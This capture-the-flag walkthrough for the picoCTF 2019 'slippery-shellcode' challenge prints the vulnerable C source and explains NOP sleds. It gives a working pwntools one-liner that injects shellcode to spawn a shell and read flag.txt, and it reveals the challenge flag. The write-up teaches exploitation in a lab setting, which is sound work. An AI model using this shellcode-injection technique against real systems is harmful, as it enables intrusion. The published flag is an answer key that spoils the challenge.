 # slippery-shellcode
200 points

### Description
*"This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_1_69e5bb04445e336005697361e4c2deb0 on the shell server. Source."*

### Solution
If we try to overflow this buffer with any number of characters, it doesn't change the program behavior. However, the program does tell us that after we give it input, it executes from a random location. This still isn't much to go off of, so we'll have to take a step back and look at the source code.
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 512
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing from a random location now...");

  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

`buf` is a 512-byte buffer that is used to get the user's input and print it back out in `vuln`. After `vuln` returns, a randomly chosen instruction will be executed from the first 256-bytes of `buf`. This is random every time, so unless you want to try it around 256 times with the same sized input, you'll want to use **NOP sledding**. 

A **NOP instruction** is simply an instruction that does nothing that affects the program, and so the instruction pointer advances to the next instruction with nothing really happening. A NOP sled is when a chain of NOP instructions is used before the actual payload shellcode to ensure that if the return address is changed to the addresses of *any* of the NOP instructions, then the program will simply keep performin NOP instructions until it hits the shellcode.

There are a few different instructions that technicaly do nothing in the context of the program and so they can be used as NOP instructions, but assembly compilers do provide an actual `nop` instruction. This has a hex value of `\x90`.

We know the program will execute some random insutruction in the first half of `buf`, so we just need to fill the first half of the buffer with NOP instructions, then place our shellcode. Remember, we can use [pwntools](http://docs.pwntools.com/en/latest/) to generate the needed assembly code and assemble it to shellcode. You can also check out [shell-storm](http://shell-storm.org/shellcode/) for lots of different shellcode.
```
$ (python2 -c "from pwn import *; print('\x90'*256 + asm(shellcraft.linux.sh()))"; cat) | ./vuln 
Enter your shellcode:
����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                                                                                                          X
Thanks! Executing from a random location now...
ls
flag.txt  vuln  vuln.c
cat flag.txt
```
**Note**: Don't forget that we use `cat` in our command to keep an open input stream with `vuln` so that we can interact with the shell that we spawn.

And now you have the flag.

<details>
  <summary>Flag:</summary>
  picoCTF{sl1pp3ry_sh311c0d3_0fb0e7da}
</details>

[Next Problem]()

[Return to Binary Exploitation](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%230%20-%20Binary%20Exploitation%20Homepage.md)

[Return to Homepage](https://github.com/sdvickers98/picoCTF-2019-Walkthrough)
